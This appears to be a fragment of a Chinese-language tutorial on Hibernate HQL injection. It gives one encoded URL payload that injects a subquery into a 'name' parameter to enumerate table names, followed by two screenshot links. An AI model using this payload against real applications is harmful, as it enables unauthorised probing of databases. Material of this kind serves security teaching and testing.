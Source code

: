 使用子查询进行表名枚举

```
?name=mysql&#39;or&#43;(select&#43;1&#43;from&#43;XXXX&#43;where&#43;1=2)=&#39;1
```

![image-20250312151247584](resource/Hibernate-HQL注入.assets/image-20250312151247584.png)

![image-20250312151259504](resource/Hibernate-HQL注入.assets/image-20250312151259504.png)
